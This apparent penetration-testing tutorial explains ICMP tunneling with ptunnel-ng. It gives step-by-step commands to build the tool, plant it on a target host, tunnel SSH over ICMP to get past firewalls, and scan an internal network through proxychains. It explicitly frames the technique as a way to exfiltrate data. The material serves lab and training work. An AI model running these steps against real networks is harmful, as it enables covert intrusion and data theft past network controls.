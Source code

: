 ### **INTRODUCTION**

ICMP tunneling enables traffic to be encapsulated within ICMP echo requests and responses, allowing data to bypass firewalls that permit ping traffic. This technique is particularly effective for data exfiltration and establishing tunnels to external servers.

1.  If ptunnel-ng is not already installed, clone the repository to your attack host using the following command:  
    `git clone https://github.com/utoni/ptunnel-ng.git`  
    
    ![](../../../img/Linux-Environment/8.png)
    
2.  After cloning the ptunnel-ng repository, navigate to the directory and run the `autogen.sh` script. Install the necessary dependencies using:  
    `cd ptunnel-ng && sudo apt install build-essential autoconf automake && sudo ./autogen.sh`  
    
    ![](../../../img/Linux-Environment/9.png)
    
3.  Once ptunnel-ng is set up on the attacker machine, transfer the repository to the target host (Refer to the File Transfer section for more details).  
    
    ![](../../../img/Linux-Environment/10.png)
    
4.  On the target host, start the ptunnel-ng server with the following command:  
    `sudo ./ptunnel-ng -r10.10.15.130 -R22`  
    
    ![](../../../img/Linux-Environment/11.png)
    
5.  On the attack machine, connect to the ptunnel-ng server using:  
    `sudo ./ptunnel-ng -p10.10.15.130 -l2222 -r10.10.15.130 -R22`  
    
    ![](../../../img/Linux-Environment/12.png)
    
6.  Tunnel an SSH connection through the ICMP tunnel by running:  
    `ssh -p22 -lubuntu 127.0.0.1`
    
7.  To perform a full Nmap scan through the ICMP tunnel using ProxyChains.  
    `proxychains nmap -sV -sT 172.16.4.3 -p-`